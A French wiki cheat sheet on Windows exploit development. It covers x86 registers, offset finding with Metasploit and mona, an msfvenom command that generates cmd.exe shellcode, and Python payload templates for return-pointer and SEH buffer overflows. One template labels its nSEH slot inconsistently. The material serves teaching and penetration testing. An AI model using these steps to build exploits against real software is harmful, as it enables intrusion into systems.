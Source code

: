 ```yaml
---
title: Ecriture d'exploit
permalink: /Ecriture_d'exploit/
---
```


T0D0
----

-   Identification automatisée des bad chars
-   Fuzzing

Registres
---------

Les différents registres présents sont:

``` text
EAX - Main register used in arithmetic calculations. Also known as accumulator, as it holds results
      of arithmetic operations and function return values.
EBX - The Base Register. Pointer to data in the DS segment.  Used to store the base address of the
      program.
ECX - The Counter register is often used to hold a value representing the number of times a process
      is to be repeated. Used for loop and string operations.
EDX - A general purpose registers. Also used for I/O operations. Helps extend EAX to 64-bits.
ESI - Source Index register. Pointer to data in the segment pointed to by the DS register.  Used as
      an offset address in string and array operations. It holds the address from where to read data.
EDI - Destination Index register. Pointer to data (or destination) in the segment pointed to by the
      ES register.  Used as an offset address in string and array operations. It holds the implied
      write address of all string operations.
EBP - Base Pointer. Pointer to data on the stack (in the SS segment).  It points to the bottom of the
      current stack frame. It is used to reference local variables.
ESP - Stack Pointer (in the SS segment). It points to the top of the current stack frame. It is used
      to reference local variables.
EIP - Instruction Pointer (holds the address of the next instruction to be executed)
```

Saved Return Pointer Overflows
------------------------------

Génération d'un pattern metasploit:

``` bash
pattern_create.rb 10000 >> pattern_10000
```

Identification de l'offset (méthode automatisée avec mona)

``` text
!mona findmsp
```

Méthode manuelle (après avoir récupéré la valeur d'EIP) avec metasploit:

``` bash
pattern_offset.rb 76483676
[*] Exact match at offset 6109
```

Méthode manuelle (après avoir récupéré la valeur d'EIP) avec mona:

``` text
!mona pattern_offset 43386F43
!mona po 43386F43
```

Identification d'un 'jmp' vers le registre visé:

``` text
!mona jmp -r esp #jmp vers esp
```

Génération d'un shellcode faisant apparaîte cmd.exe:

``` bash
msfvenom -p windows/exec CMD=cmd.exe -f py --bad-chars "\x00\x0d\x0a"
```

Le payload final aura la forme suivante:

``` python
# [JUNK][EIP][NOP_SLED][SHELLCODE]
payload = 'A' * offset + ret_addr + '\x90' * 100 + buf
```

Structured Exception Handler (SEH)
----------------------------------

Génération d'un pattern metasploit:

``` bash
pattern_create.rb 10000 >> pattern_10000
```

Identification de l'offset (méthode automatisée avec mona):

``` text
!mona findmsp
```

Afficher le contenu des enregistrements SEH:

``` text
!mona exchain
```

Trouver des instructions 'pop pop ret':

``` text
!mona seh
```

Saut de 6 bytes (saute deux NOP et l'adresse du pop pop ret):

``` text
\xEB\x06\x90\x90
```

Le payload final aura la forme suivante:

``` python
# [JUNK][nSEH][SEH][NOP_SLED][SHELLCODE]
payload = 'A' * offset + jmp_esp + ret_addr + '\x90' * 100 + buf
```

Références
----------

-   [Fuzzy Security - Exploit Development](https://www.fuzzysecurity.com/tutorials/expDev/1.html)
-   [Awesome Windows Exploitation](https://github.com/enddo/awesome-windows-exploitation)

[Category:Méthodologies](/Category:Méthodologies "wikilink") [Category:Exploitation](/Category:Exploitation "wikilink")